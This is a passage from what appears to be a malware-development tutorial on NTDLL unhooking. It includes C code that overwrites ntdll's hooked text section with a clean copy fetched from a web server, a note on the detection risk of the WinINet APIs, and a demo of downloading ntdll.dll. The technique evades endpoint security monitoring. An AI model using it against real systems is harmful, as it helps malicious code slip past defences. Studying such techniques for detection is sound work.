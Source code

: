```
	DWORD dwOldProtection = NULL;

	// making the text section writable and executable
	if (!VirtualProtect(pLocalNtdllTxt, sNtdllTxtSize, PAGE_EXECUTE_WRITECOPY, &dwOldProtection)) {
		printf("[!] VirtualProtect [1] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// copying the new text section
	memcpy(pLocalNtdllTxt, pRemoteNtdllTxt, sNtdllTxtSize);

	// rrestoring the old memory protection
	if (!VirtualProtect(pLocalNtdllTxt, sNtdllTxtSize, dwOldProtection, &dwOldProtection)) {
		printf("[!] VirtualProtect [2] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

```
Even though the ntdll.dll file is *read* from a WebServer, the offset of the text section can be `4096`, and since this assumption can't be validated until runtime, an if-statement is added to verify this possibility and work upon it by adding `3072` bytes to the miscalculated base address (because `1024` bytes were already added).

The result is a base address of a text section of offset `4096`. This logic was introduced in the *Ntdll Unhooking - From Disk* module.

### **Risk Consideration**

Although this NTDLL unhooking approach may appear a good approach at first, it is considered risky due to the usage of the [WinINet](https://learn.microsoft.com/en-us/windows/win32/wininet/about-wininet) APIs. These APIs are used to interact with the HTTP/S protocol, but they require loading additional DLL images such as `wininet.dll`, `winhttp.dll`, `sechost.dll`, and many other DLLs that export functions used by these WinINet APIs. Loading these DLLs is done using functions that are likely being hooked such as `LoadLibrary` and `LdrLoadDll`, which exposes the inner design of the implementation.

### **Demo**

Downloading the `ntdll.dll` file from Winbindex.

[![](87%20NTDLL%20Unhooking%20-%20From%20a%20Web%20Server%20d1bcc5c3167c43088e31dd211efded76/ntdll-unhooking-server-718816620-fdcedd74-65d6-49a9-b7b8-b83eb8d59b68.png)](87%20NTDLL%20Unhooking%20-%20From%20a%20Web%20Server%20d1bcc5c3167c43088e31dd211efded76/ntdll-unhooking-server-718816620-fdcedd74-65d6-49a9-b7b8-b83eb8d59b68.png)The hooked `ntdll.dll` text section to be replaced.

[![](87%20NTDLL%20Unhooking%20-%20From%20a%20Web%20Server%20d1bcc5c3167c43088e31dd211efded76/ntdll-unhooking-server-818817840-42eb37ed-c3fb-4bfc-a990-a79ea05fc69a.png)](87%20NTDLL%20Unhooking%20-%20From%20a%20Web%20Server%20d1bcc5c3167c43088e31dd211efded76/ntdll-unhooking-server-818817840-42eb37ed-c3fb-4bfc-a990-a79ea05fc69a.png)Miscalculating the text section base address.
